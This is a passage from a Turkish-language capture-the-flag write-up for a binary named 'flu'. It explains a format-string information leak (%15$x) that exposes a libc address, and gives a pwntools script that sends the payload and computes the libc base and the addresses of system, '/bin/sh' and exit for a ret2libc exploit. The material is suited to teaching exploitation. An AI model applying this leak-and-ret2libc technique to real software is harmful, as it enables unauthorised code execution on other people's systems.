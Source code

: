 Dikkatinizi *__libc_start_main+241* olan adrese çekmek isterim. Ilk adress basmayacak çünkü o zaten girdiğimiz input. 0x8048620 adresi ilk index olur. Böyle bakarsanız *__libc_start_main* ise 15. Sırada. Yani %15$x dersek önümüze o adres çıkar:

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Flu/screenshots/7.png)

ASLR’den dolayı sürekli değişiyor. Bu adres ile Libc base adresini rahatlıkla bulabiliriz. *__libc_start_main+241* adresi elimizde bu adresten *__libc_start_main* offsetini çıkarırsak ve ekstradan 241 çıkarırsak libc base adresi elde etmiş oluruz. Jump writeup yazısında çok daha detaylı anlattığım için burda vakit kaybetmeden hemen Leak yapalım:

```python
from pwn import *
import os
import posix
from struct import *
import time


offset_system = 0x0003d870
offset_str_bin_sh = 0x17c968
offset_exit = 0x00030c30
offset___libc_start_main = 0x000198b0


payload = "%15$x"

prog = os.path.abspath("./flu")

p = process(prog)

print p.recv(17)	# "FormatString BUG\n"
#p.clean()
p.sendline(payload)

leakString = "0x" + p.recv(8)

leak = int(leakString, 16)

libc_start_main = leak - 0xf1
log.info("libc_start_main@libc: 0x%x" % libc_start_main)

libc_base = libc_start_main - offset___libc_start_main
system_addr = libc_base + offset_system
binsh_addr = libc_base + offset_str_bin_sh
exit_addr = libc_base + offset_exit

log.info("libc base: 0x%x" % libc_base)
log.info("system@libc: 0x%x" % system_addr)
log.info("binsh@libc: 0x%x" % binsh_addr)
```